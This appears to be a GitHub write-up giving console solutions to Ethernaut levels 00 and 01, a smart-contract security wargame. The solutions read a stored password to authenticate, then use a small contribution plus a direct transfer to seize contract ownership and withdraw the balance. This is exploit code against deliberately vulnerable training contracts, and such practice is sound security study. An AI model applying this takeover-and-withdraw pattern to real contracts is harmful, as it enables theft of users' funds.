 # Levels

## Level 00

https://ethernaut.openzeppelin.com/level/0xBA97454449c10a0F04297022646E7750b8954EE8

```Javascript
await contract.password()
await contract.authenticate("ethernaut0")
```

## Level 01

https://ethernaut.openzeppelin.com/level/0x80934BE6B8B872B364b470Ca30EaAd8AEAC4f63F

```javascript
await contract.owner() 
await contract.contributions("0x80934BE6B8B872B364b470Ca30EaAd8AEAC4f63F")
await contract.contribute.sendTransaction({from: player, value: toWei('0.0009')})

await sendTransaction({from: player, to: contract.address, value: toWei('0.0000000001')})
await contract.withdraw()
```